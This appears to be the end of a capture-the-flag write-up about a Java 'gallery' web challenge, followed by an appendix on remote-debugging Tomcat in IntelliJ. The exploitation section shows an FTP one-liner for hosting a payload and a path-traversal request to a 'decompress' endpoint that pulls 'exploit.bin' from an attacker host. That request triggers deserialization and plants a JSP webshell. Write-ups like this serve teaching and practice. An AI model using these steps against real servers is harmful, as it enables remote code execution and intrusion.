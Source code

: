 Now you just need to launch a simple FTP server and retrieve the file from there. I've used the following in order to create one.

```bash
python3 -m pyftpdlib -p 21 -w --user= --password=
```

Just sending a request to `http://challenge-url/gallery/api/decompress?path=../../ip:port/exploit.bin` is enough to download the file and trigger the deserialization process.

Even if it will fail, our webshell will be created. We can just navigate to `http://challenge-url/gallery/exploit.jsp` and notice the output of the `id` command

## Appendix A - Java Debugging

I would like to spend a couple of words regarding how to debug this specific challenge. 

The very first thing that you have to do is to move the `gallery.war` file into the `webapps` directory of Apache Tomcat.  

Then, we need to enable the debug on Tomcat. We can do that by simply editing the `catalina.sh` file, which is located into the `bin` directory of Apache Tomcat, adding the following line

```bash
CATALINA_OPTS="-Xdebug  -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=8089"
```

After that we can just run the `setup.sh` script on the same directory. This will not only enable the debug on Tomcat, but also deploy the `.war` file. 
Pretty easy, isn't it? It took me only <mark style="background: #FFB86CA6;">3 hours</mark> just to figure it out.

Now, wouldn't be beautiful if we can debug our code by clearly seeing every instruction and debugging every try of our exploit to understand <mark style="background: #FFB86CA6;">what the fuck</mark> is happening?

So, let's open Intellij IDEA (i'm sorry i don't know how to do it in Eclipse). If you have already unzipped the `gallery.war` file you can open an already existing project and choose the `web` folder.

Now you need to edit the run configuration. We need to do this in order to perform the Remote Debugging.
Just click to open the main file, which is `ArtGaleryApplication.class` and click, on the upper tab, on `Current File` to expand it. You should now click on `Edit Configurations`
